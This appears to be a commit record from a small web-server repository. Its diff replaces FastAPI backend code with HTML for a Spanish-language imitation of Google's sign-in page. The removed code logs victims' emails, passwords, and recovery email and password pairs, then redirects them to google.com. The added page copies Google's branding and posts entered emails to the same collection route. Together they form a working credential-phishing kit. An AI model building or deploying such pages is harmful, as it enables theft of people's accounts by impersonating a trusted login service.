

Before and after one commit to GorgiiGk/Replit_webserver, a FastAPI app: template templates/index.html in a window 1280 px wide. Run offline with FastAPI, Linux system fonts and the light colour scheme; the template is opened without the code that fills it, so the values that code supplies are empty; grey boxes are pictures that could not be loaded.

Commit message:
Replace FastAPI code with Google login HTML
Removed FastAPI backend code and added HTML structure for Google login page.

```diff
--- a/templates/index.html
+++ b/templates/index.html
@@ -1,51 +1,68 @@
-from fastapi import FastAPI, Request, Form
-from fastapi.responses import HTMLResponse, RedirectResponse
-from fastapi.templating import Jinja2Templates
-import logging
-import uvicorn
+<!DOCTYPE html>
+<html lang="es">
+<head>
+    <meta charset="utf-8">
+    <meta name="viewport" content="width=device-width,initial-scale=1">
+    <title>Iniciar sesión - Cuenta de Google</title>
+    <style>
+        body{font-family:'Roboto',arial,sans-serif;margin:0;background:#fff;color:#202124;min-height:100vh;display:flex;flex-direction:column;align-items:center;}
+        .header{padding:20px;width:100%;text-align:right;}
+        .header a{color:#5f6368;text-decoration:none;margin-left:16px;font-size:13px;}
+        .logo{margin:40px 0 20px;}
+        .container{width:100%;max-width:450px;border:1px solid #dadce0;border-radius:8px;padding:48px 40px 36px;margin:0 auto;}
+        h1{font-size:24px;font-weight:400;text-align:center;margin:0 0 8px;}
+        .subtitle{text-align:center;color:#5f6368;margin-bottom:36px;}
+        .input-field{width:100%;padding:13px 15px;font-size:16px;border:1px solid #dadce0;border-radius:4px;margin-bottom:24px;}
+        .input-field:focus{outline:none;border:2px solid #1a73e8;padding:12px 14px;}
+        .links{margin-bottom:48px;}
+        .links a{color:#1a73e8;text-decoration:none;font-weight:500;}
+        .info{color:#5f6368;margin-bottom:32px;}
+        .buttons{display:flex;justify-content:space-between;}
+        .create-account{color:#1a73e8;font-weight:500;text-decoration:none;padding:10px 8px;}
+        .next-button{background:#1a73e8;color:white;border:none;padding:10px 24px;border-radius:4px;cursor:pointer;}
+        .footer{margin-top:24px;color:#5f6368;}
+        @media(max-width:480px){.container{border:none;padding:24px;}}
+    </style>
+</head>
+<body>
+    <div class="header">
+        <a href="https://accounts.google.com/signup">Crear cuenta</a>
+        <a href="https://mail.google.com">Gmail</a>
+        <a href="https://images.google.com">Imágenes</a>
+    </div>
 
-logging.basicConfig(level=logging.INFO)
-logger = logging.getLogger(__name__)
+    <div class="logo">
+        <img src="https://www.google.com/images/branding/googlelogo/1x/googlelogo_color_75x24dp.png" alt="Google" width="75" height="24">
+    </div>
 
-app = FastAPI()
-templates = Jinja2Templates(directory="templates")
+    <div class="container">
+        <h1>Iniciar sesión</h1>
+        <p class="subtitle">Utiliza tu cuenta de Google</p>
 
-@app.get("/", response_class=HTMLResponse)
-async def google_login(request: Request):
-    return templates.TemplateResponse("index.html", {"request": request})
+        <form action="/check-email" method="post">
+            <input type="email" class="input-field" name="email" placeholder="Correo electrónico o teléfono" required autofocus>
 
-@app.post("/check-email")
-async def check_email(request: Request, email: str = Form(...)):
-    logger.info(f"Email: {email}")
-    response = RedirectResponse(url="/password", status_code=303)
-    response.set_cookie(key="user_email", value=email)
-    return response
+            <div class="links">
+                <a href="https://accounts.google.com/signin/recovery">¿Has olvidado tu correo electrónico?</a>
+            </div>
 
-@app.get("/password", response_class=HTMLResponse)
-async def password_page(request: Request):
-    email = request.cookies.get("user_email", "usuario@gmail.com")
-    return templates.TemplateResponse("password.html", {
-        "request": request,
-        "email": email
-    })
+            <div class="info">
+                ¿No es tu ordenador? Usa el modo de invitado para iniciar sesión de forma privada.
+                <a href="https://support.google.com/chrome/answer/6130773">Más información</a>
+            </div>
 
-@app.post("/check-password")
-async def check_password(request: Request, password: str = Form(...)):
-    email = request.cookies.get("user_email", "usuario@gmail.com")
-    logger.info(f"Password for {email}: {password}")
-    return RedirectResponse(url="/recovery", status_code=303)
+            <div class="buttons">
+                <a href="https://accounts.google.com/signup" class="create-account">Crear cuenta</a>
+                <button type="submit" class="next-button">Siguiente</button>
+            </div>
+        </form>
+    </div>
 
-@app.get("/recovery", response_class=HTMLResponse)
-async def recovery_page(request: Request):
-    return templates.TemplateResponse("recovery.html", {"request": request})
-
-@app.post("/process-recovery")
-async def process_recovery(request: Request, recovery_email: str = Form(...), recovery_password: str = Form(...)):
-    main_email = request.cookies.get("user_email", "Desconocido")
-    logger.info(f"Recovery data - Main: {main_email}, Recovery Email: {recovery_email}, Recovery Password: {recovery_password}")
-    response = RedirectResponse(url="https://www.google.com", status_code=307)
-    response.delete_cookie(key="user_email")
-    return response
-
-if __name__ == "__main__":
-    uvicorn.run("main:app", host="0.0.0.0", port=8000, reload=True)
+    <div class="footer">
+        <select>
+            <option>Español (España)</option>
+            <option>English</option>
+        </select>
+    </div>
+</body>
+</html>
```
